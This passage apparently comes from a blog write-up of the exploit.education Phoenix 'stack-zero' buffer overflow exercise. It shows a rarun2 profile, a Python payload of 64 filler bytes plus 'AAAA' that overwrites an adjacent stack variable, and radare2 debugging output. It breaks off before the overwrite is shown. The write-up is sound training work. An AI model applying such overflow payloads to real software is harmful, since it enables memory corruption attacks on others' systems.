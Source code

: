 With that in mind, to exploit this the input must have a size of, at least, 65 bytes (64 is the size of the buffer and to overwrite the value of `var_ch` one more byte at minimum is needed).

Before opening the binary in debugger mode using `radare2`, a `rarun2` profile is needed so that the input can be read from the binary. In order to do that, a file needs to be created with the following contents:

{% highlight shell %}
#!/usr/bin/env rarun2
stdio=/dev/pts/0
stdin=./pattern
{% endhighlight %}

*Replace `/dev/pts/0` with the output of the command `tty` and `./pattern` with the full path to the file that contains the input to be read from the binary.*

One more thing that is essential is a file that contains the input. For that, python3 is going to be used.

{% highlight python %}
#!/usr/bin/env python3
print("X"*64 + "AAAA")
{% endhighlight %}

{% highlight shell %}
$ ./myScript.py > pattern
{% endhighlight %}

Now, the binary can be debugged as follows:

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/stack-zero -e dbg.profile=myProfile.rr2
{% endhighlight %}

*Note that when debugging with radare2, the visual panels are really awesome! They can be accessed with `v!` or `V!`.*

To showcase that the binary is indeed vulnerable, a breakpoint before the call to `gets` is necessary. That can be done by simply executing `db` followed by the address and then `dc` to continue until the breakpoint is hit.

{% highlight nasm %}
[0xf7f03d4b]> aas
Cannot analyze at 0x08048560
[0xf7f03d4b]> db 0x080484e4
[0xf7f03d4b]> dc
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
hit breakpoint at: 80484e4
{% endhighlight %}

Before calling `gets`, it is a good idea to check the value of `var_ch`. This can be accomplished by first checking the value of the `ebp` register, via `dr`, and then viewing the hexdump at address `ebp-0xc`, via `px/xw`.

{% highlight nasm %}
[0x080484e4]> dr
eax = 0xff9353cc
ebx = 0xf7f39000
ecx = 0xff935300
edx = 0x00000000
esi = 0xff9354a4
edi = 0x00000001
esp = 0xff9353b0
ebp = 0xff935418
eip = 0x080484e4
eflags = 0x00000296
oeax = 0xffffffff
[0x080484e4]> px/xw 0xff935418-0xc
0xff93540c  0x00000000                                   ....

[exploit-education]: https://exploit.education/downloads/
[rabin2-docs]: https://r2wiki.readthedocs.io/en/latest/tools/rabin2/